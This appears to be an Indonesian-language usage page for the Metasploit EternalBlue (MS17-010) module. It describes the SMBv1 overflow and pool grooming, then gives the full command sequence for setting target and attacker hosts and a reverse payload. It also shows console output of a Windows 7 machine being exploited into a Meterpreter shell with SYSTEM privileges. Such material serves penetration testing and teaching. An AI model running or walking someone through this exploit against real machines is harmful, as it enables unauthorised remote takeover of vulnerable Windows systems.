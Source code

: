 # ms17_010_eternalblue

Modul ini merupakan port dari eksploitasi `ETERNALBLUE` kelompok `Equation`, bagian dari `toolkit FuzzBunch` yang dirilis oleh `Shadow Brokers`.

Terdapat operasi buffer overflow memmove di `Srv!SrvOs2FeaToNt`. Ukuran dihitung di `Srv!SrvOs2FeaListSizeToNt`, dengan kesalahan matematis di mana `DWORD` dikurangi menjadi `WORD`. Pool kernel digroom sehingga overflow tersusun rapi untuk menimpa buffer `SMBv1`. Pembajakan `RIP` sebenarnya diselesaikan kemudian di `srvnet!SrvNetWskReceiveComplete`.

Eksploitasi ini, seperti aslinya, mungkin tidak selalu berhasil 100% dan harus dijalankan secara terus-menerus hingga terpicu. Pool tampaknya bisa mengalami `hot streaks` dan memerlukan periode pendinginan sebelum shell kembali muncul.

Modul ini akan mencoba menggunakan login Anonymous secara default untuk autentikasi guna melakukan eksploitasi. Jika pengguna menyediakan kredensial di opsi `SMBUser`, `SMBPass`, dan `SMBDomain`, modul akan menggunakan kredensial tersebut.

Pada beberapa sistem, modul ini dapat menyebabkan ketidakstabilan sistem dan crash, seperti `BSOD` atau `reboot`. Ini mungkin lebih sering terjadi dengan beberapa payload tertentu.

## Penulist
- Equation Group
- Shadow Brokers
- sleepya
 -Sean Dillon sean.dillon@risksense.com
- Dylan Davis dylan.davis@risksense.com
- thelightcosine
- wvu wvu@metasploit.com
- agalway-r7
- cdelafuente-r7
- cdelafuente-r7
- agalway-r7

## Platform
- `Windows`

## Arsitektur
- `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD <PAYLOAD>
set RHOSTS <IP_TARGET>
set RPORT 445
set VERIFY_ARCH true
set VERIFY_TARGET true
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] 192.168.1.52:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[*] 192.168.1.52:445      - Connected to \\192.168.1.52\IPC$ with TID = 2048
[*] 192.168.1.52:445      - Received STATUS_INSUFF_SERVER_RESOURCES with FID = 0
[+] 192.168.1.52:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.16/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 192.168.1.52:445      - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.52:445 - The target is vulnerable.
[*] 192.168.1.52:445 - Connecting to target for exploitation.
[+] 192.168.1.52:445 - Connection established for exploitation.
[+] 192.168.1.52:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.52:445 - CORE raw buffer dump (42 bytes)
[*] 192.168.1.52:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 192.168.1.52:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 192.168.1.52:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 192.168.1.52:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.1.52:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.52:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.52:445 - Sending NT Trans Request packet
[*] 192.168.1.52:445 - Making :eb_trans2_zero packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Making :eb_trans2_buffer packet
[*] 192.168.1.52:445 - Sending malformed Trans2 packets
[*] 192.168.1.52:445 - Starting non-paged pool grooming
[*] 192.168.1.52:445 - Sending start free hole packet.
[+] 192.168.1.52:445 - Sending SMBv2 buffers
[*] 192.168.1.52:445 - Sending end free hole packet.
[+] 192.168.1.52:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.52:445 - Sending final SMBv2 buffers.
[*] 192.168.1.52:445 - Sending last fragment of exploit packet!
[*] 192.168.1.52:445 - Making :eb_trans2_exploit packet
[*] 192.168.1.52:445 - Receiving response from exploit packet
[+] 192.168.1.52:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.1.52:445 - Sending egg to corrupted connection.
[*] 192.168.1.52:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 192.168.1.52
[*] Meterpreter session 2 opened (192.168.1.11:4444 -> 192.168.1.52:49220) at 2025-05-17 08:56:14 +0700
[+] 192.168.1.52:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.52:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.52:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
